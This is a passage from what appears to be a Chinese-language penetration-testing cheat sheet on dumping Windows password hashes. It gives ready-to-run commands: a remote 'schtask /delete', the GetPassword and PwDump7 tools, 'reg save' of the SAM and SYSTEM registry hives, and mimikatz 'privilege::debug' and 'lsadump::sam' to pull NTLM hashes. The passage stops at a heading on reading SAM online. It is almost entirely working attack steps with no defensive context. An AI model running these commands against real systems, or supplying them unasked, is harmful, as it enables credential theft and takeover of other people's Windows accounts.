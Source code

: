 |     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```cmd<br>schtask /delete /s IP /tn "test" /f<br>``` |

## [](#windows-%E7%B3%BB%E7%BB%9F%E6%95%A3%E5%88%97%E5%80%BC%E8%8E%B7%E5%8F%96)Windows 系统散列值获取

### [](#%E5%8D%95%E6%9C%BA%E5%AF%86%E7%A0%81%E6%8A%93%E5%8F%96)单机密码抓取

#### [](#getpass)GetPass

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```cmd<br>GetPassword_x64.exe<br>``` |

#### [](#pwdump7)PwDump7

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```cmd<br>PwDump7.exe<br>``` |

#### [](#%E9%80%9A%E8%BF%87-sam-%E5%92%8C-system-%E6%96%87%E4%BB%B6%E6%8A%93%E5%8F%96%E5%AF%86%E7%A0%81)通过 SAM 和 SYSTEM 文件抓取密码

##### [](#%E5%AF%BC%E5%87%BA-sam-%E5%92%8C-system-%E6%96%87%E4%BB%B6)导出 SAM 和 System 文件

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>``` | ```cmd<br>reg save hklm\sam sam.hive<br>reg save hklm\system system.hive<br>``` |

##### [](#%E9%80%9A%E8%BF%87%E8%AF%BB%E5%8F%96-sam-%E5%92%8C-system-%E6%96%87%E4%BB%B6%E8%8E%B7%E5%BE%97-ntlm-hash)通过读取 SAM 和 System 文件获得 NTLM Hash

-   mimikatz

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```fallback<br>lsadump::sam /sam:sam.hive system:system.hive<br>``` |

-   cain
-   目标机器使用 mimikatz 直接读取本地 SAM 文件

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>``` | ```fallback<br>privilege::debug<br>lsadump::sam<br>``` |

##### [](#%E4%BD%BF%E7%94%A8-mimikatz-%E5%9C%A8%E7%BA%BF%E8%AF%BB%E5%8F%96-sam-%E6%96%87%E4%BB%B6)使用 mimikatz 在线读取 SAM 文件
